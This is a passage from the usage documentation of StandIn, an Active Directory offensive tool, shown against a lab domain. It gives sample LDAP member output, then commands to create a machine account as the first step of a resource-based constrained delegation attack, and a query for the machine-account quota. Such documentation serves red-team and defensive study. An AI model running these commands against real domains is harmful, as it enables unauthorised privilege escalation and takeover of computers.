 ```
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Members

[?] Path           : LDAP://CN=User 001,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : user001
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1106

[?] Path           : LDAP://CN=s4uUser,OU=Users,OU=OCCULT,DC=main,DC=redhook,DC=local
    samAccountName : s4uUser
    Type           : User
    SID            : S-1-5-21-1293271031-3053586410-2290657902-1197
```

## Machine Object Operations

These functions specifically are for machine operations and expect the machine name as an input.

### Create machine object

#### Use Case

> *The operator may wish to create a machine object in order to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack. By default any domain user has the ability to create up to 10 machines on the local domain.*

#### Syntax

Create a new machine object with a random password, user `ms-DS-MachineAccountQuota` applies to this operation.

```
C:\> StandIn.exe --computer M-1337-b33f --make

[?] Using DC    : m-w16-dc01.main.redhook.local
    |_ Domain   : main.redhook.local
    |_ DN       : CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local
    |_ Password : MlCGkaacS5SRUOt

[+] Machine account added to AD..
```

The `ms-DS-MachineAccountQuota` property exists in the domain root object. If you need to verify the quota you can perform an object search as shown below.

```
C:\> StandIn.exe --object ms-DS-MachineAccountQuota=*
```

### Disable machine object
